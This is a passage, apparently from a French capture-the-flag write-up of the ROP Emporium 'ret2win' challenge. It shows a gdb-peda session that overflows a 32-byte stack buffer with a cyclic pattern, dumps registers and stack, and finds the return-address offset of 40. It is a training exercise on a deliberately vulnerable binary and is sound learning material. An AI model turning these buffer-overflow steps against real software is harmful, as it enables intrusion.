 La fonction se trouve a l’adresse `0x00400811` et elle lance un `cat flag.txt`. 
Maintenant trouvons l'offset avec lequel nous pouvons faire un dépassement de tampon :

~~~bash
root@kali:~/rop_emporium/ret2win# gdb ret2win
gdb-peda$ pattern_create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
gdb-peda$ r 
Starting program: /root/rop_emporium/ret2win/ret2win 
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffe080 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RBX: 0x0 
RCX: 0xfbad2288 
RDX: 0x7fffffffe080 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RSI: 0x7ffff7fab8d0 --> 0x0 
RDI: 0x7fffffffe081 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RBP: 0x6141414541412941 ('A)AAEAAa')
RSP: 0x7fffffffe0a8 ("AA0AAFAAb")
RIP: 0x400810 (<pwnme+91>:	ret)
R8 : 0x0 
R9 : 0x7ffff7fb0500 (0x00007ffff7fb0500)
R10: 0x602010 --> 0x0 
R11: 0x246 
R12: 0x400650 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe190 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400809 <pwnme+84>:	call   0x400620 <fgets@plt>
   0x40080e <pwnme+89>:	nop
   0x40080f <pwnme+90>:	leave  
=> 0x400810 <pwnme+91>:	ret    
   0x400811 <ret2win>:	push   rbp
   0x400812 <ret2win+1>:	mov    rbp,rsp
   0x400815 <ret2win+4>:	mov    edi,0x4009e0
   0x40081a <ret2win+9>:	mov    eax,0x0
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe0a8 ("AA0AAFAAb")
0008| 0x7fffffffe0b0 --> 0x400062 --> 0x1f8000000000000 
0016| 0x7fffffffe0b8 --> 0x7ffff7e1209b (<__libc_start_main+235>:	mov    edi,eax)
0024| 0x7fffffffe0c0 --> 0x0 
0032| 0x7fffffffe0c8 --> 0x7fffffffe198 --> 0x7fffffffe479 ("/root/rop_emporium/ret2win/ret2win")
0040| 0x7fffffffe0d0 --> 0x100000000 
0048| 0x7fffffffe0d8 --> 0x400746 (<main>:	push   rbp)
0056| 0x7fffffffe0e0 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400810 in pwnme ()
gdb-peda$ pattern offset AA0AAFAAb
AA0AAFAAb found at offset: 40
~~~
